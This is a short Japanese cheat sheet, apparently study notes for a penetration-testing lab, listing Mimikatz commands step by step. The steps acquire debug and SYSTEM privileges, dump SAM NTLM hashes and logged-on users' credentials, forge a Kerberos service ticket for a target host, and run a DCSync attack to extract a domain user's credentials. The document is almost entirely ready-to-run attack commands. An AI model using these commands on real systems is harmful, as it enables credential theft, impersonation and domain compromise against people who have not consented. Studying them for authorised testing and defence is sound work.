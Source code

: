 # Mimikatz
[Documentation]()

## コマンド集

1. Mimikatzのプロセスにデバッグ権限を要求して、認証情報の抽出を可能にする。SeDebugPrivlege権限を取得する。
```
privilege::debug
```

2. SYSTEM権限に昇格する
```
token::elevate
```

3. SAMデータベースからユーザのNTLMハッシュをダンプする
```
lsadump::sam
```

4. Sekurlsaモジュールを使ってログオンしているすべてのユーザの資格情報、ハッシュをダンプする
```
sekurlsa::logonpasswords
```

5. jeffadminユーザとして、ターゲットのweb04.corp.comサービスにおける認証チケットを作成する。
```
kerberos::golden /sid:<sid> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:(ターゲットNTLMハッシュ) /user:jeffadmin
```

6. DCSYNC攻撃をするためのコマンドで、/userの引数にドメイン\ユーザの形式で指定。これでターゲットユーザの資格情報を取得できる。
```
lsadump::dcsync /user:corp\dave
```